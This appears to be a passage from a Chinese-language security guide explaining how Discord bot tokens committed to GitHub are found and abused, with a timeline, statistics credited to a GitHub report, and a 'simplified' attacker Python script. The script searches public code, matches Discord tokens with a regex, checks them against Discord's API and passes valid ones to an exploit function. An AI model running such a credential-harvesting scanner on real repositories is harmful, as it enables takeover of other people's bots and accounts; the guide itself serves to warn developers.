 ### 📅 事件模式

這不是單一事件,而是持續發生的模式:

**典型時間線**:
- **T+0 分鐘**: 開發者 commit 包含 Discord bot token 的代碼
- **T+5 分鐘**: 自動掃描機器人在 GitHub 發現 token
- **T+10 分鐘**: 攻擊者使用 token 控制 bot
- **T+15 分鐘**: Bot 開始發送垃圾訊息/詐騙連結
- **T+30 分鐘**: 開發者察覺異常
- **T+60 分鐘**: Token 被撤銷,但損害已造成

---

### 🤖 攻擊者自動化流程

```python
# 攻擊者使用的自動掃描腳本 (簡化版)
import requests
import re
from github import Github

# 1. 搜尋最近的 commits
g = Github()
query = 'token extension:py language:python pushed:>2024-01-01'

for repo in g.search_code(query):
    content = repo.decoded_content.decode()

    # 2. 正則匹配 Discord token
    tokens = re.findall(r'[MN][A-Za-z\d]{23}\.[\w-]{6}\.[\w-]{27}', content)

    for token in tokens:
        # 3. 驗證 token 有效性
        headers = {'Authorization': f'Bot {token}'}
        r = requests.get('https://discord.com/api/users/@me', headers=headers)

        if r.status_code == 200:
            # 4. 立即利用
            exploit_bot(token)
```

**掃描規模**: 每天數百萬個 commits 被掃描

---

### 📊 真實數據

根據 GitHub 2023 年報告:
- **每天**約 10,000+ 個憑證被洩漏到公開倉庫
- Discord tokens, AWS keys, Stripe keys 最常見
- 平均在 **7 分鐘內**被自動掃描機器人發現
- 99% 的洩漏來自個人專案和學習專案

---